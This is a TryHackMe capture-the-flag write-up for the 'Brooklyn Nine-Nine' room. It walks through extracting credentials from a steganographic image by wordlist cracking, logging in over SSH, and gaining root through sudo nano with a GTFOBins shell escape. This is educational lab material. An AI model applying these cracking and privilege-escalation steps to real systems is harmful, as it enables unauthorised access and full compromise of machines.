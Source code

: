 ```yaml
---
title: Brooklyn Nine Nine
categories: [TryHackMe]
tags: [Linux, medium,]
image: images/Brooklyn Nine Nine/Brooklyn Nine Nine.jpg
---
```


**Brooklyn Nine-Nine** is a **medium** rated room on **TryHackMe**, inspired by the *Brooklyn Nine-Nine* TV series. The challenge starts with a web server hosting a precinct's internal site containing employee profiles and clues. By enumerating the server, hidden files and directories are uncovered, leading to sensitive information. Initial access is gained through weak credentials, and exploiting further vulnerabilities allows privilege escalation.



For any webpage, the first thing that we can do is check out it’s source-code and over there we can see a hint related to `steganography`

<img src="images/Brooklyn%20Nine%20Nine/img1.webp" alt="Brooklyn Nine-Nine" width="700"/>

Now, we can think like we have an image and a hint towards steganography. So, we can download the image and see if there is something hidden inside it. We can use `Steghide` to uncover the hidden data:


```console
Glitch.@glitch.:~/Downloads$ steghide extract -sf brooklyn99.jpg 
Enter passphrase: 
steghide: can not uncompress data. compressed data is corrupted.
```
Steghide was not able to retrieve the data from the image, so we can try to do the same with `StegCracker`. If StegCracker is not present on your machine, it can be downloaded using the command 

```bash
sudo apt install stegcracker
```

We can pass on a wordlist to StegCracker which it uses to attack the target file and if the wordlist is not passed on then it by default uses the rockyou.txt to attack the target file.

We can pass on a wordlist to StegCracker which it uses to attack the target file and if the wordlist is not passed on then it by default uses the rockyou.txt to attack the target file.

```console
Glitch.@glitch.:~/Downloads$ stegcracker brooklyn99.jpg 
StegCracker 2.0.9 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2020 - Luke Paris (Paradoxis)
No wordlist was specified, using default rockyou.txt wordlist.
Counting lines in wordlist..
Attacking file 'brooklyn99.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: admin
Tried 20395 passwords
Your file has been written to: brooklyn99.jpg.out
admin
```


We can see that the file has been cracked and the data has been written to a new file.
```console 
Glitch.@glitch.:~/Downloads$ cat brooklyn99.jpg.out 
Holts Password:
*******************
Enjoy!!
```
Now, we have the user credentials that we can try to use with SSH. Keep in mind that the username is `holt` and I've hid the password with `*`.

```console
Glitch@glitch:~$ ssh holt@10.10.182.115
The authenticity of host '10.10.182.115 (10.10.182.115)' can't be established.
ECDSA key fingerprint is SHA256:Ofp49Dp4VBPb3v/vGM9jYfTRiwpg2v28x1uGhvoJ7K4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.182.115' (ECDSA) to the list of known hosts.
holt@10.10.182.115's password: 
Last login: Tue May 26 08:59:00 2020 from 10.10.10.18
holt@brookly_nine_nine:~$ cat user.txt 
*******************************
```

And we got the `user.txt` flag. Now, the next task is to get the root access for which we need to perform privilege escalation.

# Privilege Escalation
As we have already logged in as holt, we need to become root to get the second flag. We can check the commands that can be executed as user holt. To do this we can use the command `sudo -l` to list all the commands that we can execute as root.


```console
Glitch.@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```

We can see that the command `/bin/nano` can be executed as 'root' by user 'holt'. So, we can check if there are any GTFOBins for `nano`. We can run the commands as described in GTFOBins and get the shell access as root.

First, we need to enter the `nano editor` with sudo privilege using the command:

```console 
holt@brookly_nine_nine:~$ sudo /bin/nano
```

Once, we get into the editor we need to press Ctrl+R and then Ctrl+X and then we can execute the command `reset; sh 1>&0 2>&0`. This will give us a root shell using which we can read the `root.txt` from `/root` directory.










<img src="images/Brooklyn%20Nine%20Nine/prv.png" alt="Brooklyn Nine-Nine" width="700"/>



Now we can take the flag from `root.txt` and submit it as the flag for the second question. With this, we have solved the `Brooklyn Nine-Nine` room!


